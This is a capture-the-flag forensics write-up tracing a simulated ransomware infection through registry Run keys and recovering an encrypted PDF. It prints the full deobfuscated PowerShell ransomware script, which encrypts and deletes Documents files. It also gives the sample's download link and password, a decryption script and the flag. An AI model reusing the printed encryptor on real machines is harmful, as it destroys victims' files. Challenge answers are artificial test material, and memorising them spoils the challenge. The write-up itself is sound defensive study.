 # Ruze

### Status : Upsolved

## Category
Forensics

## Description
You are a DFIR Consultant, you got a client (MR. K) who has a ransomware problem, where when he installs something suddenly his device reboots and his files suddenly disappear, and there are files that confirm that he was hit by ransomware. can you help him?

Note : Dont execute the malicious file on your computer!

Note : Remember you are a DFIR Consultant, not a malware consultant who focus to analyze the ransomware file!

you can download the file you need in here : [https://mega.nz/file/Ln53ARjT#ZUwOX1WBfTsRjgjsYgsHB5xr6d4pGNpVPr8N3kl6WhI](https://mega.nz/file/Ln53ARjT#ZUwOX1WBfTsRjgjsYgsHB5xr6d4pGNpVPr8N3kl6WhI)

Password : 1nip4ssw0rdny4

## Solution
In this challenge, the given file was in `AD1` format, so I started by examining it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

I noticed a non-default user account named **sand-4ECC834FCF**, so I focused my analysis there.
From the description `when he installs something, suddenly his device reboots and his files disappear`, I suspected that the ransomware was configured to execute upon reboot or login. On Windows, this behavior is commonly set in the Registry under the Run key. 

I used Registry Explorer from [https://ericzimmerman.github.io/#!index.md](https://ericzimmerman.github.io/#!index.md) to examine the hive `HCKU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` in the `NTUSER.DAT`.

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

I found an entry pointing to a file named `console.bat`, which contained encoded `PowerShell` code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I decoded and deobfuscated the script using [powerdecode](https://github.com/Malandrone/PowerDecode). Here is the result:

```shell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

This script encrypt all files from `Document` and save it to `\AppData\Local\Microsoft\Garage`

![image](https://github.com/user-attachments/assets/73ad78b2-a7ea-4c6e-b27c-52ef936e253c)

From the script, I found that the encryption method used was `AES` in `CBC` mode, with the `key` and `IV` stored at `HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77`.

![image](https://github.com/user-attachments/assets/94f5538e-de4e-44ec-9d98-8b0babfe7366)

Here is the `decryption script` I used :

```python
from Crypto.Cipher import AES

file = open('seccreettttt_credentialll_confidentalll_moodd_booossteerrrr.pdf', 'rb').read()
key = b'ea0aaa5d53dddfe1'
iv = file[0:16]
encrypted = file[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(encrypted)

result = open('result.pdf', 'wb').write(decrypted)
```

After decryption, I successfully recovered the original PDF containing the flag.

![image](https://github.com/user-attachments/assets/14e69fd8-a7fb-4bf6-ac97-fab79f814660)

## Flag
gemastik{be_careful_with_what_is_on_the_internet_r4nsom_everywhere}

